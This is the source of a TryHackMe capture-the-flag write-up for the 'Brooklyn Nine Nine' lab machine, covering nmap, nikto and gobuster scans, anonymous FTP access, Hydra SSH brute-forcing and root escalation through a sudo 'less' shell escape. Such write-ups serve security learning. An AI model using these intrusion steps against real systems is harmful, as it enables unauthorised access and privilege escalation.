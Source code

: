 ```yaml
---
title: Brooklyn Nine Nine Writeup | TryHackMe
date: 2022-07-20 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, gobuster, nmap, pentest]
author:
  name: v3r4x
---
```


## Overview

Welcome to my write-up for the [Brooklyn Nine Nine room](https://tryhackme.com/room/brooklynninenine) on [TryHackMe](https://tryhackme.com).  Unlike other rooms, this has very little hand-holding, so you must have a good knowledge base and methodology before attempting this room.  However, the room is of easy difficulty, so anyone can attempt to hack this box.  In preparation, I recommend you consult my other write-ups on [Kenobi](/posts/kenobi-writeup-tryhackme/) and [Mr Robot](/posts/anonymous-writeup-tryhackme/).

In order to complete this room, we must enumerate the target machine's FTP server and website, bruteforce SSH credentials using Hydra in order to gain initial access, and escalate our privileges via misconfigured binaries.

I hope you enjoy!

## Walkthrough

Once we have established our connection to the VM, we begin by enumerating the machine by running an nmap scan:

```console
$ nmap -sC -sV -T4 -p- 10.10.240.107 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 22:26 BST
Nmap scan report for 10.10.240.107
Host is up (0.070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.06 seconds
```

Here is a quick overview of the above scan:
- `-sC`: Will perform a script scan using a set of default scripts.
- `-sV`: Will probe open ports to determine service and version information.
- `-T4`: Sets the timing for the scan (higher is faster).
- `-p-`: Specifies all ports will be scanned (1-65535).

From the output, it shows we have **3 ports** open on the target machine, namely **FTP (21)**, **SSH (22)**, and **HTTP (80)**.

It also appears that anonymous access is enabled on the FTP service on port 21, so we can login:

![](/assets/posts/20220720/ftp_anonymous.png)

As highlighted, there is a `note_to_jake.txt` which reads:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Now that the FTP server has been enumerated, we can move onto the webserver.

![](/assets/posts/20220720/homepage.png)

It is good practice to manually crawl the website while you run additional scans.  In particular, we can run `nikto` to scan the website for vulnerabilities, and `gobuster` to check for additional subdirectories, while we check the website in our browser.  The output of such scans are as follows:

```console
$ nikto -h http://10.10.240.107
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.240.107
+ Target Hostname:    10.10.240.107
+ Target Port:        80
+ Start Time:         2022-07-20 22:44:40 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2ce, size: 5a5ee14bb8d76, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-20 22:51:12 (GMT1) (392 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```console
$ gobuster dir -u http://10.10.240.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.240.107
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/20 22:42:33 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 278]
Progress: 220512 / 220561 (99.98%)            ===============================================================
2022/07/20 23:00:01 Finished
===============================================================
```

Viewing the source code of the homepage reveals the following comment:

![](/assets/posts/20220720/source_code.png)

We can see if there is any data hidden within the image using steghide:

```console
$ wget http://10.10.240.107/brooklyn99.jpg

$ steghide info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
```

It appears that there is a `.jpeg` file embedded within the image, but it requires a passphrase in order to be extracted.

From the `note_to_jake.txt` file on the FTP server, it appears Jake's password is particularly weak.  Therefore, we can `hydra` to bruteforce his password on the SSH server:

![](/assets/posts/20220720/hydra.png)

With the password, we are now able to login as the `jake` user via SSH, but we still cannot crack the passphrase for the image.

![](/assets/posts/20220720/jake_ssh.png)

However, there is no `user.txt` within the `jake` user's `/home` directory.  Listing the contents of the `/home` directory, there appears to be two other users: `amy` and `holt`.  The `user.txt` flag is contained within the `holt` user's `/home` directory:

![](/assets/posts/20220720/user_flag.png)

Now that we have the `user.txt` flag we find a way to escalate our privileges to `root`.  Firstly, we can check if we can run any binaries with `sudo` using the `sudo -l` command:

```console
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

As shown, we can run the `less` binary with `sudo` without any password, meaning we can elevate our privileges to `root`.  To do this, we can consult [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) for the `less` binary.  In particular, we can run the following as `jake` in order to become `root` and retrieve the `root.txt` flag:

```
sudo less /etc/profile
!/bin/sh
```

![](/assets/posts/20220720/root_flag.png)

## Closing Remarks

And that's it!  All done!

I hope you all enjoyed this room and learned a thing or two.  I really am trying to up my game with these writeups and tutorials for my own learning and so I can share my knowledge with you.

If you want to keep up-to-date on what I do, follow me here:

- [Twitter](https://twitter.com/0xV3R4X)
- [GitHub](https://github.com/0xv3r4x)

Or you can also support me by buying me a coffee:

<a href="https://www.buymeacoffee.com/v3r4x" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important; width: auto !important;"></a>

Stay curious

\- v3r4x